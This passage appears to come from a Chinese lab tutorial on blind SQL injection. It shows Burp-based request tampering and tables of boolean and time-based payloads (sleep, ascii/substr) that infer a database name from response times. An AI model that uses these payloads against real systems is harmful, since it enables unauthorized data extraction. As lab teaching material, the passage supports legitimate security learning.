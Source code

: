 ![img](https://upload-images.jianshu.io/upload_images/4866277-f55035cacaae7d70.png?imageMogr2/auto-orient/strip|imageView2/2/w/597/format/webp)

此时，既然不能直接在前端界面中输入所构造的数据进行提交，需要借助拦截工具进行抓包、改包、重放恶意构造的数据，是时候让我们的Burp神器出场了。
（Firefox最新版61.x的浏览器中，F12键在消息头中可以使用编辑和重发功能，不过操作起来可能还是没有Burp直观方便）

**判断是否存在注入，注入的类型**
虽然前端界面上只能通过下拉列表选择数字，提交后查询显示的都是"exists"，但是抓包工具修改数据重放之后是可以在工具中观察到响应数据有"MISSING"和"exists"两种返回结果的，如下：



![img](https://upload-images.jianshu.io/upload_images/4866277-dc3e3d04e53eef40.png?imageMogr2/auto-orient/strip|imageView2/2/w/855/format/webp)

Burp工具中Response数据

|      | 输入         | 输出    |
| :--- | :----------- | :------ |
| ①    | 1            | exists  |
| ②    | '            | MISSING |
| ③    | 1 and 1=1 #  | exists  |
| ④    | 1 and 1=2 #  | MISSING |
| ⑤    | 1' and 1=1 # | MISSING |
| ⑥    | 1' and 1=2 # | MISSING |

由③和④构造真假条件返回对应不同的结果，可知存在数字型的SQL盲注漏洞

**猜解当前连接数据库的名称**

对于 **if(判断条件,sleep(n),1)** 函数而言，若判断条件为真，则执行sleep(n)函数，达到在正常响应时间的基础上再延迟响应时间n秒的效果；若判断条件为假，则返回设置的1（真），此时不会执行sleep(n)函数

| 输入                                         | 输出（Response Time） |
| -------------------------------------------- | --------------------- |
| 1 and if(length(database())=4,sleep(2),1) #  | 2031 ms               |
| 1 and if(length(database())=5,sleep(2),1) #  | 26 ms                 |
| 1 and if(length(database())>10,sleep(2),1) # | 30 ms                 |

==>以上根据响应时间的差异，可知当前连接数据库名称的字符长度=4，此时确实执行了sleep(2)函数，使得响应时间比正常响应延迟2s（2000ms）

| 输入                                                     | 输出    |
| -------------------------------------------------------- | ------- |
| 1 and if(ascii(substr(database(),1,1))>88,sleep(2),1) #  | 2049 ms |
| 1 and if(ascii(substr(database(),1,1))>105,sleep(2),1) # | 19 ms   |
| 1 and if(ascii(substr(database(),1,1))>96,sleep(2),1) #  | 2037 ms |
| 1 and if(ascii(substr(database(),1,1))>101,sleep(2),1) # | 46 ms   |
| 1 and if(ascii(substr(database(),1,1))>99,sleep(2),1) #  | 2027 ms |
| 1 and if(ascii(substr(database(),1,1))=101,sleep(2),1) # | 27 ms   |
| 1 and if(ascii(substr(database(),1,1))=100,sleep(2),1) # | 2020 ms |
